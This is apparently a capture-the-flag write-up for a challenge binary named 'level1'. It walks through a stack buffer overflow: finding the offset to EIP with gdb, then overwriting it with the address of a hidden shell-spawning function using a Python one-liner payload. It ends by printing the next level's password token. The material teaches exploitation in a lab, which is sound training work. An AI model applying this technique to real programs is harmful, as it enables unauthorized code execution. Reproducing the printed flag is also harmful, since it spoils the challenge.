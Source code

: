 # level1

On this level we have one executable (`level1`).
```bash
> ./level1
<read user input>
```
If we send a big string to the program, we have a segfault
```bash
./level1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

we can have the maximum lenght of the string in gdb
```bash
(gdb) gdb level1
(gdb) pattern create 100  ; works only with peda
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
(gdb) run
...
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
...
(gdb) pattern search  ; search for the pattern in the program
... ; we can see the EIP (pointer address at an offset of 76)
EIP+0 found at offset: 76
...
```

if we disass the code with radare2 (or any disassembler), we can see a run function. this function is never called and this function exec a shell.

We get his adress on the disassembler (`08048444`) and we will try to send it has EIP (Instruction Pointer).
```bash
> python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/args  # create 76 char (offset of EIP) and then put the address
> cat /tmp/args - | ./level1
Good... Wait what?
> # you have a shell on level2
> cd ../level2
> cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```


